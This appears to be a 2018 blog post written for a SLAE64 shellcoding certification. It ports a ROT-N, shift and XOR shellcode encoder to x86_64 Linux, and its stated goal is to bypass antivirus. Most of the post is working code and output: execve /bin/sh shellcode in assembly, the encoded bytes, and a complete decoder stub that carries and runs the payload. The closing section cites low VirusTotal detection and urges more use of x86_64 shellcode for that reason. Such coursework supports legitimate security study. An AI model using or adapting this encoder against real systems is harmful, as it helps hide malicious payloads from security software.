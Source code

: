 ```yaml
---
layout: single
title: -[ ROT-N + Shift-N + XOR-N] Shellcode Encoder - Linux x86_64
date: 2018-7-22
classes: wide
header:
  teaser: /assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif
---
```


Introduction
------------
Encoding schemes are used to transform data in a way that makes it consumable by different systems in a safe manner. In this post we’ll look at how we can bypass AVs by ab(using) this scheme to encode otherwise detectable shellcode.

Shellcode
---------
We will be porting an [x86 encoder](https://www.exploit-db.com/exploits/43890) I made a while back to make it work `x86_64` architecture. Please refer to my SLAE32 blog series for more details on the encoder itself. I’ve also made a quick `execve()` shellcode to test with.

```nasm
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
```

Will reuse the `x86` encoder [script](https://github.com/ihack4falafel/SLAE64/blob/master/Assignment%204/Encoder.py) developed during the SLAE32 blog series, all we need is feed it our newly created `/bin/sh` shellcode and generate an encoded version of it.

```sh
➜  A4 ./Encoder.py 13 1 1337
Original Shellcode: 0x50, 0x99, 0x52, 0x5e, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x53, 0x54, 0x5f, 0xb0, 0x3b, 0x0f, 0x05, 
Encoded Shellcode : 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
➜  A4 
```

Here’s `Decoder.asm` ported to `x86_64` including previously generated encoded shellcode.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to RSI
	
decoder:

    pop rsi                      ; store encoded_shellcode pointer in RSI
    push rsi   		             ; push encoded_shellcode pointer to stack for later execution
    mov rdi, rsi                 ; move encoded_shellcode pointer to RDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [rsi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [rdi], al                ; move decoded byte to RDI	
    inc rsi                      ; point to the next encoded_shellcode word
    inc rsi
    inc rdi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [rsp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
```

Let’s run it.

![](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif)

Out of curiosity, I decided to compare my `x86` encoded shellcode VT results (taken at the time the original `x86` encoder was created) with `x86_64` one and I found the results quite interesting.

![x86 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.45.33-PM.png)


![x86_64 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.46.08-PM.png)

Closing Thoughts
----------------
The VT results clearly shows that AV vendors don’t care much for `x86_64` shellcode at this point in time which is another good reason why we should use it more. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%204). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
